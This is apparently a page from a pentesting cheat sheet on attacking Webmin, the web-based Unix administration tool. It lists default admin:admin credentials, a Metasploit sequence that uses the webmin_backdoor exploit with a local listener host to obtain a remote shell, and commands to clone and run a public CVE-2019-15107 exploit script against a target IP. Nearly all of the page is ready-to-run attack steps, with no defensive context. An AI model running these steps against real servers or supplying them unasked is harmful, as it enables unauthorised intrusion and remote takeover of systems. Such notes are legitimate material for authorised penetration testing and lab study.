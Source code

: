 ```yaml
---
title: Webmin Pentesting
description: Webmin is a web-based system administration tool for Unix. The default port is 10000.
tags:
    - Web
refs:
date: 2022-12-01
draft: false
---
```


## Default Credentials

```txt
admin:admin
```

<br />

## password_chagne.cgi Command Injection version=1.890

```sh
msfconsole
msf> use exploit/linux/http/webmin_backdoor
msf> set rhosts <target-ip>
msf> set lhost <local-ip>
msf> run
shell
```

<br />

## Remote Code Execution (RCE) version\<2.37

Webmin version\<2.37 is vulnerable to remote code execution.  
Download the payload .

```sh
git clone https://github.com/MuirlandOracle/CVE-2019-15107
cd CVE-2019-15107
python3 CVE-2019-15107.py <target-ip>
```
